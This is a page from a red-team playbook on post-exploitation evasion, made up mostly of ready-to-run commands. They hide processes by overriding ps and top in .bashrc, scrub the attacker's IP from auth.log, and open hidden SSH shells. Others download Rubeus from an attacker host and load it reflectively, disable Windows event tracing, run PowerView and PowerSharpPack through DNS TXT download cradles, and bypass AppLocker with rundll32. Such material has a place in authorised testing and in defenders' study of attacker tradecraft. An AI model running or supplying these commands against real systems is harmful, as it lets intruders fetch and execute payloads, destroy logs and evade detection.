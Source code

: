 # 5.2 Situational Awareness

## Table of Contents

- [Process Hiding](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Process-Hiding)
- [Save File Deletion](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Save-File-Deletion)
- [Hiding SSH Sessions](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Hiding-SSH-Sessions)
- [Logfile Cleaning](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Logfile-Cleaning)
- [.Net Reflection](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Net-Reflection)
- [Bypassing Event Tracing for Windows (ETW)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Bypassing-Event-Tracing-for-Windows-ETW)
- [Windows Advanced Threat Protection (ATP)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Windows-Advanced-Threat-Protection-ATP)
- [Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Avoid-Invoke-Expression-IEX-and-Invoke-WebRequest-IWR)
- [LOLBAS](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#LOLBAS)

## Process Hiding

```c
$ echo 'ps(){ command ps "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'top(){ command top "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'htop(){ command htop "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'procs(){ command procs "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pgrep(){ command pgrep "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pstree(){ command pstree "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
```

## Save File Deletion

```c
$ shred -z <FILE>
```

Alternatively:

```c
$ FN=<FILE>; dd bs=1k count="`du -sk \"${FN}\" | cut -f1`" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```

## Hiding SSH Sessions

```c
$ ssh -o UserKnownHostsFile=/dev/null -T <USER>@<RHOST> 'bash -i'
```
- It is not added to `/var/log/utmp`
- It won't appear in the output of `w` or `who` commands
- No `.profile` or `.bash_profile` modification needed

## Logfile Cleaning

```c
$ cd /dev/shm; grep -v '<RHOST>' /var/log/auth.log > <FILE>.log; cat <FILE>.log > /var/log/auth.log; rm -f <FILE>.log
```

Notice that this modification of the logfile is most likely to be spotted.

## .Net Reflection

```c
PS C:\> $d = (New-Object System.Net.WebClient).DownloadData('http://<LHOST>/Rubeus.exe')
PS C:\> $a = [System.Reflection.Assembly]::Load($d)
PS C:\> [Rubeus.Program]::Main("-h".Split())
```

## Bypassing Event Tracing for Windows (ETW)

```c
C:\> set COMPlus_ETWEnabled=0
```

## Windows Advanced Threat Protection (ATP)

### Information

Process:
- MsSense.exe

Service:
- Display name: Windows Defender Advanced Threat Protection Service

Name:
- Sense

Registry:
- HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection

File Paths:
- C:\Program Files\Windows Defender Advanced Threat Protection\

### Check Registry

```c
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection /s
```

### Check Service

```c
C:\> sc query sense
PS C:\> Get-Service Sense
```

### Process

```c
C:\> tasklist | findstr /i mssense.exe
```

## Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)

Instead of using `IEX` and `IWR` within assessments, try this:

* Host a text record with the payload at one of the unburned domains

| Name | Type | Value | TTL |
| --- | --- | --- | --- |
| cradle1 | TXT | "IEX(New-Object Net.WebClient).DownloadString($URI)" | 3600 |

```c
C:\> powershell . (nslookup -q=txt cradle1.domain.example)[-1]
```

```c
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
```

```c
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1"""";'(nslookup -q=txt cradle1.domain.example)[-1]';Get-Domain'
```

Example with `PowerSharpPack`.

```c
C:\> powershell
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1"""";'(nslookup -q=txt cradle1.example.domain)[-1]';PowerSharpPack'
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/files/bypass.png">
</p>

## Concatinate Payloads

```c
PS C:\> powershell . (-Join (Resolve-DnsName -Type txt https://<DOMAIN>).Strings)
```

## LOLBAS

### AppLocker Bypass

<FILE>.url:

```c
[internetshortcut]
url=C:\Windows\system32\calc.exe
```

```c
C:\Windows\system32> rundll32 C:\Windows\system32\ieframe.dll,OpenURL C:\<FILE>.url
```

### Previous

- [5 Installation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5-Installation.md)
- [5.1 Persistence](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md)

### Next

- [6 Command-and-Control](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/6-Command-and-Control/6-Command-and-Control.md)
